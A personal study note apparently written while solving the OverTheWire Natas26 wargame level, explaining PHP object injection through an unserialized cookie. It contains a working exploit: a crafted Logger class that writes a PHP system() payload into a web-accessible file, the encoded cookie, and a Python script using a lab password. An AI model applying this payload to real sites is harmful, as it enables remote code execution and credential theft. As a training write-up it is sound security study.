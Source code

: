 
2024-07-26 12:51

Source: #natas #web 

Tags: [[PHP]] 

## Natas26

also known as - PHP object [[deserialization]]

PHP object injection through the serialized and unserialized PHP functions can be super dangerous especially **if there's complete user control over what data is being serialized**

PHP code from the source shows that it is using object oriented programming as it has a class called `logger`

`__construct()` and `__destruct()` are defined in `logger` 
these double underscore functions are PHP magic object functions so they are necessary and built-in for PHP.

the code further draws from user given x and y coordinates, it does this via a drawing cookie 
source code looks like - 
```
if (array_key_exists("drawing", $_COOKIE)){
    $drawing=unserialize(base64_decode($_COOKIE["drawing"]));  
}
```
`unserializing` data that we have complete control over is a huge vulnerability 
it's using our session ID as the actual location that it's loading the image file from

Since the website is using the session id to name `png` files we can try injecting code but it doesn't work 
on returning the cookies after drawing something we see a drawing cookie along with the session cookie. The drawing cookie is [[base64]] encoded + Url encoded in order to get around this we use - 
```python
import base64
from urllib.parse import unquote
.
.
base64.b64decode(unquote(session.cookies['drawing'])))
```
in the output we get PHP serialized data

this class logger we can actually change what these variables are and what they do, and if we give that to the drawing cookie and the PHP application will like unserialize that data for us, it'll load up this logger and we'll try and write that message and we may be able to take advantage of what we actually write to a file and we can essentially get some code on the server and maybe run our own PHP code because we are writing to a file with this.

create a php file and copy the snippet of `logger `class 
```php
<?php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
        
        function __construct($file){
            // initialise variables
            $this->initMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->logFile = "img/winner.php";
//above we create a custom initalise message and log it to file we can access later
// we write to img because it is trying to load out of that image directory 

			// write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }
        
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }
        
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }
$object = new Logger();
echo(base64_encode(serialize($object)));
?>
```
- make sure you run this code with php version 7 only as it only runs on that version
in order to run php directly on kali  - 
```
php7.0 file_name.php 2>/dev/null
```
the output will be a base64 string 
we set that b64 string to our drawing cookie 

```python
import requests
username = 'natas26'
password = 'cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE'

url = 'http://natas26.natas.labs.overthewire.org/'
session = requests.Session()
response = session.get(url,auth=(username,password))

response.cookies['PHPSESSID']

session.cookies['drawing'] = 'Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL3dpbm5lci5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30='

response = session.get(url+'?x1=0&y1=0&x2=55&y2=500',auth=(username,password))
print(response.text)
```

after doing this we encounter a fatal error, we know that this means that our code successfully executed we know that we got that object to unserialized

we then change the `get` request to fetch to winner.php file that we manipulated 
```
response = session.get(url+'img/winner.php',auth=(username,password))
```
### References
https://www.youtube.com/watch?v=IgxhtJQL-gY
php magic methods - https://www.php.net/manual/en/language.oop5.magic.php
php version 7.0.33 - https://onlinephp.io/
php object injection  - https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection